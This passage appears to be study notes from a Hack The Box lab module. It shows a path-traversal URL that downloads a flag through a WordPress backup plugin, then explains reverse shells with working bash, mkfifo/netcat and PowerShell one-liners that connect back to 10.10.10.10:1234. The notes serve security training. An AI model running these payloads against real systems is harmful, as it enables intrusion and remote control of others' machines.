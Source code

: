 The loot file contains the flag `HTB{my_f1r57_h4ck}`.

Another way of getting the flag is by reading the exploit description at [exploitdb/39883](https://www.exploit-db.com/exploits/39883).
Reading the "File Download" section, we see that we can download our flag by going to the page
```txt
http://94.237.62.195:39921/wp-admin/tools.php?page=backup_manager&download_backup_file=../../../../flag.txt
```

Googling a little bit, I was also able to find the plugin's source code at [wp-plugins/simple-backup](https://github.com/wp-plugins/simple-backup/blob/master/simple-backup-manager.php).


### Shells

#### Reverse Shell

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.

The first step is to start a netcat listener on a port of our choosing:
```bash
nc -lvnp 1234
```

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with `ip a`.

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

The below commands are reliable commands we can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.
